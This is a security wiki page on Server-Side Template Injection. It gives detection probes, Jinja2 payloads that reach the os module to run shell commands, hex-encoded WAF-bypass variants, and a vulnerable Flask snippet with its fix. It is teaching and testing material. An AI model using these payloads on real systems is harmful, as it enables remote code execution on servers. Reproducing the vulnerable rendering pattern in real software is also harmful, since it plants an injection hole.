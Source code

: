 ```yaml
---
authors: ShutdownRepo, p0dalirius, Fantabc
---
```


# 🛠️ SSTI (Server-Side Template Injection)

## Theory

Some web applications rely on template engines to offer dynamic content. When user inputs are embedded in templates, without proper sensitization, the web apps can be vulnerable to SSTIs (Server-Side Template Injections). This is a critical vulnerability that can sometimes lead to Sensitive Information Disclosure, Local File Disclosure and even RCE (Remote Code Execution).

## Practice

Testers need to identify input vectors (parts of the app that accept content from the users) that might be embedded in templates.

The following payload is used for testing [SQL injections](../../web/inputs/sqli.md), [XSS (Cross-Site Scripting)](../../web/inputs/xss.md) and SSTI (Server-Side Template Injection). The <code>&#123;&#123;7*7&#125;&#125;</code> should be interpreted and changed to `49` by **Jinja2** and **Twig** engines.

```html
'"<svg/onload=prompt(5);>{{7*7}}
```

The following injection methodology can be used to identify the template engine. Is the content modified?

Depending on the template engine in use, testers will be able to fully exploit the SSTI vulnerability.

> [!TIP]
> Many template engines offer a sandboxed mode for intentional template injection (to offer rich functionalities). A server-side template injection can sometimes be a feature and not a vulnerability.

## Creating the payload from scratch

After finding a vulnerable field with a basic payload, the attacker still needs to exploit it. The next step is to find a variable that can be used to access classes, variables or modules to run shell commands and get a RCE. The variables to search for depends on the detected render engine. For example, **Jinja2** has the `request` variable, it may be a good idea to try it first.

If no variable is found, there are always the default string constructor (`''`), the default array constructor (`[]`), the default object constructor (`{}`), etc, to start with.

Whether a variable has been found or using a default constructor, there are 2 main ways to create a payload :

- Reading the source code of the variable / default constructor on Github
- Try it on the fly on a local machine and explore all the properties and methods

To speed up the process, it is often easier to start searching from the result : finding a piece of code in the code base where it is possible to run shell commands and then exploring all the properties and methods of the variable / default constructor to reach this first piece of code.

Searching a payload from scratch is a long way to find a RCE but, unless someone on the Internet already shared a payload, there is no better way to do so.

## Example

> [!NOTE]
> The following example will use Jinja2 as the render engine. However, the method is the same with every render engine.

If the server is known to use Python, chances are it might use **Jinja2** as well to render the HTML. To check if an input is vulnerable to a SSTI, use the following payload :

```py
{{ 7*7 }}
```

Multiple payloads can then be used to get a RCE. To perform a RCE, the goal is to retrieve the `os` module one way or another to execute shell commands from there.

Using the already imported `os` module :

```py
{{ os.popen('id').read() }}
```

Using the `request` variable :

```py
{{ request.application.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

Context independant payloads to get the `os` module by **[Podalirius](https://podalirius.net/fr/articles/python-vulnerabilities-code-execution-in-jinja-templates/)** :

```py
{{ self._TemplateReference__context.cycler.__init__.__globals__.os }}
{{ self._TemplateReference__context.joiner.__init__.__globals__.os }}
{{ self._TemplateReference__context.namespace.__init__.__globals__.os }}
```

## WAF bypass

The web application may be under a **Web Application Firewall**, protecting a SSTI from abusing the server. However, there are a lot of creative way to bypass its restrictions.

### Bypass `.`

In some language, a property or a method is accessible with brackets, for example :

```js
variable.property == variable['property']
```

Using this is a common way to bypass the `.` filter.

### Bypass `_` and other special property symbols

By combining the previous method with this one, WAF characters blacklist can be bypassed using hexadecimal encoding :

```py
# \x5f is equal to _
{{ request['application']['\x5f\x5fglobals\x5f\x5f']['\x5f\x5fbuiltins\x5f\x5f']['\x5f\x5fimport\x5f\x5f']('os')['popen']('id')['read']() }}
```

Or with the full payload encoded :

```py
# This payload is the same than the previous one
{{ request['\x61\x70\x70\x6c\x69\x63\x61\x74\x69\x6f\x6e']['\x5f\x5f\x67\x6c\x6f\x62\x61\x6c\x73\x5f\x5f']['\x5f\x5f\x62\x75\x69\x6c\x74\x69\x6e\x73\x5f\x5f']['\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f']('\x6f\x73')['\x70\x6f\x70\x65\x6e']('\x69\x64')['\x72\x65\x61\x64']() }}
```

## Securing the app as a developer

When programming, it might be useful to know what the code behind a SSTI looks like. The following example uses a Python Flask server running with Jinja2 for easier understanding. However, the concept is the same with every language.

Here is a vulnerable source code.

```py
from flask import Flask, request, render_template_string

# Create the app
app = Flask(__name__)

# Home route
@app.route('/')
def home():
    if request.args.get('user'):
        # Render the 'user' argument
        return render_template_string('Welcome ' + request.args.get('user'))
    else:
        # Default page
        return render_template_string('Hello World!')
```

An attacker can perform a SSTI with the URL :

```
http://<server>/?user={{7*7}}  // Plain text
http://<server>/?user=%7B%7B7*7%7D%7D  // URL encoded
```

The template will then render with the response `Welcome 49`.

To fix the problem, the developer should avoid rendering user input. To include user input in the template, the developer should use variable parameters like the following example.

```py
@app.route('/')
def home():
    if request.args.get('user'):
        return render_template_string('Welcome {{ username }}', username=request.args.get('user'))
    else:
        ...
```

Sometimes, it is not possible due to business conditions. One other way is to add a blacklist with all sensible characters and use a sandboxed environment. However, adding a blacklist is not the most popular option, as it can be easily bypassed.

## Resources

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)

[https://podalirius.net/fr/articles/python-vulnerabilities-code-execution-in-jinja-templates/](https://podalirius.net/fr/articles/python-vulnerabilities-code-execution-in-jinja-templates/)

[https://portswigger.net/research/server-side-template-injection](https://portswigger.net/research/server-side-template-injection)

